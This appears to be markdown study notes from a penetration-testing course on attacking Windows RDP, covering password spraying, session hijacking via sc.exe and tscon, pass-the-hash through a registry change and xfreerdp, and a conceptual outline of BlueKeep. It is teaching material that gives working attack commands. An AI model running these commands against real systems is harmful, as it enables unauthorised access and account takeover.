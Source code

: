 ### Misconfiguration

One common attack against RDP is password guessing, it's possible but not common to find an RDP service without a password.

We can also try password spraying where we try a few usernames before trying another password, instead of password guessing, to avoid lockout policy.

We can use [Crowbar](https://github.com/galkan/crowbar) to preform password spraying.

#### Crowbar - RDP Password Spraying
```shell-session
# crowbar -b rdp -s <ip address>/32 -U <users file> -c '<password>'
```

#### Hydra - RDP Password Spraying
```shell-session
# hydra -L <users file> -p '<password>' <ip address> rdp
```

#### RDP Login
```shell-session
# rdesktop -u <username> -p <password> <ip address>
```

### Protocol Specific Attacks

In case we have compromised a machine with local admin privileges, if there is a user connected with RDP to our machine we can hijack the user's session to escalate privileges and impersonate the account.

##### RDP Session Hijacking

We can execute `query user` from PowerShell to see all users connected with RDP.

![[rdp_session-1-2.jpeg]]

To impersonate a user without a password we will need SYSTEM privileges, and the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. We will need to specify session id and name to open a new console as the specified session id:
```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

We can use methods such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) to obtain SYSTEM privileges. A simple trick is to create a windows service that will run by default as local system, and will execute any binary with SYSTEM privileges. We can use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create). We will need to specify the service name and the binpath, which is the command we want to execute. We can create a service named `sessionhijack` with the following command:
```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

To run the command:
```cmd-session
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user will appear.

_Note: This method no longer works on Server 2019._

### RDP Pass-the-Hash(PtH)

If we want to access applications or software on user's computer that is only available through GUI, and we have only the hash, in some instances we can perform RDP PtH attack.

There are a few caveats to this attack:

`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
![[rdp_session-4.webp]]

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

##### Adding the DisableRestrictedAdmin Registry Key
```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![[rdp_session-5.webp]]

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:
```shell-session
# xfreerdp /v:<ip address> /u:<username> /pth:<NTLM hash>
```

This attack will not always work.

## Latest RDP vulnerabilities

`BlueKeep` ([CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)) is a vulnerability that leads to remote code execution, it does not require prior access to the system. Large organizations like hospitals which require specific versions and libraries for their software are particularly vulnerable.

### The Concept of the Attack

The vulnerability is based on manipulated requests sent to the targeted service, but it does not require authentication. It occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a [Use-After-Free](https://cwe.mitre.org/data/definitions/416.html) (`UAF`) technique that uses freed memory to execute arbitrary code.

It involves many different steps in the kernel of the operating system, after the function has been exploited and the memory has been freed, data is written to the kernel, which allows us to overwrite the kernel memory. This memory is used for us to write instructions for the CPU to execute. this [article](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/) provides a nice overview of the vulnerability.

#### Initiation of the Attack
|**Step**|**BlueKeep**|**Concept of Attacks - Category**|
|---|---|---|
|`1.`|Here, the source is the initialization request of the settings exchange between server and client that the attacker has manipulated.|`Source`|
|`2.`|The request leads to a function used to create a virtual channel containing the vulnerability.|`Process`|
|`3.`|Since this service is suitable for [administering](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) of the system, it is automatically run with the [LocalSystem Account](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) privileges of the system.|`Privileges`|
|`4.`|The manipulation of the function redirects us to a kernel process.|`Destination`|

#### Trigger Remote Code Execution
| **Step** | **BlueKeep**                                                                                                                                                                                                                                                   | **Concept of Attacks - Category** |
| -------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------- |
| `5.`     | The source this time is the payload created by the attacker that is inserted into the process to free the memory in the kernel and place our instructions.                                                                                                     | `Source`                          |
| `6.`     | The process in the kernel is triggered to free the kernel memory and let the CPU point to our code.                                                                                                                                                            | `Process`                         |
| `7.`     | Since the kernel also runs with the highest possible privileges, the instructions we put into the freed kernel memory here are also executed with [LocalSystem Account](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) privileges. | `Privileges`                      |
| `8.`     | With the execution of our instructions from the kernel, a reverse shell is sent over the network to our host.                                                                                                                                                  | `Destination`                     |

Note: This is a flaw that we will likely run into during our penetration tests, but it can cause system instability, including a "blue screen of death (BSoD)," and we should be careful before using the associated exploit. If in doubt, it's best to first speak with our client so they understand the risks and then decide if they would like us to run the exploit or not.